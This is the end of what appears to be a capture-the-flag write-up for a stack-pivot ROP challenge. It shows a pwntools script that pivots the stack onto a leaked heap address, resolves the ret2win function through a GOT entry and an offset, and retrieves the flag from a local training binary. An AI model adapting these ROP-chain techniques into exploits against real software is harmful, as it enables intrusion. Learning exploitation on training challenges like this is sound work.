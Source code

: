 ```python
    payload = p64(pop_rax) + p64(addr)
    payload += p64(xchg_rsp_rax)
    return payload

# create pivot payload
io = process('./pivot')
io.recvuntil(b'pivot: ')
addr_output = io.recvline()
# remove \n and convert to number
malloc_addr = addr_output[0:-1]
malloc_addr = int(malloc_addr, 16)
pivot_payload = b'A' * 40
pivot_payload += set_rsp(malloc_addr)

# create flag payload
# call foothold_function() to lookup
# the current function address
flag_payload = p64(foothold_addr)
# calculate ret2win address
flag_payload += p64(pop_rax) + p64(foothold_got_plt)
flag_payload += p64(dereference_rax)
flag_payload += p64(pop_rbp) + p64(ret2win_offset)
flag_payload += p64(add_rax_rbp)
# call ret2win
flag_payload += p64(jmp_rax)

# send payloads + receive flag
io.send(flag_payload)
io.recvuntil(b'>')
io.send(pivot_payload)
io.recvuntil(b'pivot\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```

![x64 flag](/images/pivot/x64-flag.png)

## Conclusion
In this challenge we learned how to call non imported
functions from a library by using an offset, as well
as how to pivot the stack from a new location to gain
more space. The next and final challenge will go over
constructing ROP chains with a limited number of
available gadgets.
